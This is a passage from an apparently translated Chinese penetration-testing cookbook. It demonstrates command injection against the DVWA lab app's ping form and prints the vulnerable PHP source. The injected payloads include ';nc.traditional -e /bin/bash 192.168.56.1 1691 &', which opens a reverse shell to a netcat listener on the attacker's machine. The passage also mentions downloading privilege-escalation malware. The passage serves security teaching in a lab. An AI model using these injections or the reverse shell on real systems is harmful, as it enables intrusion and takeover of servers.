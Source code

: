 5.  现在，我们打算获取服务端的反向 shell。首先我们必须确保服务器拥有所需的任何东西。提交下列代码：`;ls /bin/nc*`。

    ![](../img/60e4d46a9c02798f638238698d66c9e7.png)

    所以我们拥有多于一种版本的 Netcat，我们打算使用它来生成连接。`nc`的OpenBSD版本不支持执行连接命令，所以我们使用传统的版本。

6.  下一步是监听 Kali 主机的连接。打开终端并执行下列命令：

    ```
    nc -lp 1691 -v
    ```

7.  返回浏览器中，提交这个：`;nc.traditional -e /bin/bash 192.168.56.1 1691 &`。

    ![]([http://git.oschina.net/wizardforcel/kali-linux-web-pentest-cookbook-zh/raw/master/img/6-2-5.jpg](http://git.oschina.net/wizardforcel/kali-linux-web-pentest-cookbook-zh/raw/master/img/6-2-5.jpg)

    我们的终端会对连接做出反应。我们现在可以执行非交互式命令并检查它们的输出。

### 工作原理

就像 SQL 注入的例子那样，命令注入漏洞的来源于弱输入校验机制，以及使用用户提供的数据来拼接之后会用做 OS 命令的字符串。如果我们查看刚刚攻击的页面源代码（每个 DVWA 页面的右下角会有个按钮），会看到这些：

```
<?php
if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command. 
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec( 'ping  ' . $target );        
        echo '<pre>'.$cmd.'</pre>';            

    } else {             
        $cmd = shell_exec( 'ping  -c 3 ' . $target );        
        echo '<pre>'.$cmd.'</pre>';        
    }    
} 
?>
```

我们可以看到，它直接将用户的输入附加到 ping 命令后面。我们所做的仅仅是添加一个分号，系统的 shell 会将其解释为命令的分隔符，以及下一个我们打算执行的命令。

在成功执行命令之后，下一步就是验证服务器是否拥有 Netcat。它是一个能够建立网络连接的工具，在一些版本中还可以在新连接建立之后执行命令。我们看到了服务器的系统拥有两个不同版本的 Netcat，并执行了我们已知支持所需特性的版本。

之后我们配置攻击系统来监听 TCP 1691 端口连接（也可以是任何其它可用的 TCP 端口），然后我们让服务器连接到我们的机器，通过该端口并在连接建立时执行`/bin/bash`（系统 shell）。所以我们通过连接发送的任何东西都会被服务器接收作为 shell 的输入。

也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。
